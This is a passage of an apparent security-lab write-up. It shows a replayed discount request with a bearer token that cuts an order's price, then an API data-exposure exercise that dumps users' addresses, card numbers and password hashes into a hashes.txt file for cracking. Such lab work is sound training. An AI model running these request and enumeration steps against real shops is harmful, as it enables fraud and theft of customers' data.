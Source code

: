 - based on that we prepared the discount endpoint for our order id

```http
GET /api/retailer/order/5acb4be9d9520729d8638c9a/applyDiscount HTTP/1.1
Host: 95603127-9f6e-42ae-bc28-9763beffeb13.idocker.vuln.land
Connection: Close
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1JldGFpbGVyIjp0cnVlLCJfaWQiOiI1YWNjODUxZmM4YmMyNjIyMTRjMDFlZTUiLCJ1c2VybmFtZSI6InJldGFpbGVyMCIsImZpcnN0bmFtZSI6IkphY2tvYiIsImxhc3RuYW1lIjoiTcO8bGxlciIsImVtYWlsIjoiSmFja29iLk11ZWxsZXJAZ21haWwuY29tIiwiaWF0IjoxNTIzMzU0NjIyLCJhdWQiOiJzZWxmIiwiaXNzIjoid2Vic2hvcCJ9.7eDbsqhJ0jyXdKWsjyVgpT5ZL6JIWlBMH8laQ6XYghQ
```

- we requested the discount more than once until the price was `92.19 CHF` from `2950 CHF`

- the fundamental security issue at hand is that the REST API documentation was accessible to everyone. This presents a vulnerability, as an attacker could potentially access and scrutinize all listed endpoints, attempting attacks on them. Another security concern emerged in the API documentation, where a valid JWT token was employed

# SCHOGGI: API Excessive Data Exposure

- watched request and response of the shop via Burp
- noticed that the endpoint `/api/users` returns a lot of data

```json
[
  { "uid": 101, "username": "alice", "picture": "user101.png", "role": "user" },
  ...
]
```

- we tried to access `/api/user/101` to get infos for one specific user

```url
https://851b60ad-81a1-4bd0-a4a1-98585c56b1c0.idocker.vuln.land/api/user/101/
```

```json
{
  "address": "Boulder Avenue 6",
  "credit_card": "2034 8857 0007 8024",
  "password_hash": "765adadbce1bcddb3bcbdbf7c8e312b5f3fd6b1fa278b8d884eb1cb8552fb1a1",
  "phone": "+41 760 603 132",
  "picture": "user101.png",
  "role": "user",
  "uid": 101,
  "username": "alice"
}
```

- after accessing all user infos we prepared the `hashes.txt` file

```txt
alice:765adadbce1bcddb3bcbdbf7c8e312b5f3fd6b1fa278b8d884eb1cb8552fb1a1
bob:985089972f3b4fc822a99bb38b6051935954944265f932a88e6e265bb9d2f90c
charlie:5cb7285acef8307dd824faa96b4956971730641083237f393bded9591ff10eae
eve:abbf8e6e2dd434cfa8545f7972045ef7fdf28a1e2a0fda258776d8189ed11875
victor:13a5c202e320d0bf9bb2c6e2c7cf380a6f7de5d392509fee260b809c893ff2f9
peggy:a0fc1cc4cfee7292d7d285aedb1ef3845332b64b04340ce6e3ee87f483396af4
mallory:522c804c591605b0d9b27483b16b6227caa4dfeecd725c459e3de9de635fb228
```
